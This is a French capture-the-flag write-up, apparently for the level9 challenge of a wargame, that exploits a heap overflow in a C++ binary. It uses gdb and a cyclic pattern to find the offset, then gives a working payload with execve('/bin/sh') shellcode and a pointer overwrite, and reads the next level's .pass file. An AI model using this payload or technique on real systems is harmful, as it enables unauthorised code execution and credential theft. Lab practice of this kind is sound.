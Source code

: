 gdb level9

info function

on apercoit des nouvelles fonctions et des call en CPP 

N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)

on va essayer de faire overflow avec 

run'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

on va regarder ou ca segfault grace a : info register eax

on met le eax : 0x41366441
dans le buffer overflow helper et il nous informe que le offset se situe a 108

on va mettre un breakpoint au moment ou l'annotation est appele pour faire notre manipulation

b *main+136 

run 'AAAA'
x $eax

on va remplacer la valeur par l'overflow qu'on veut faire donc 108, en mettant l'adresse, le code, le padding et l'adresse du buffer ca nous donne 108 + 4

./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + 83 * "A" + "\x0c\xa0\x04\x08"')

cat /home/user/bonus0/.pass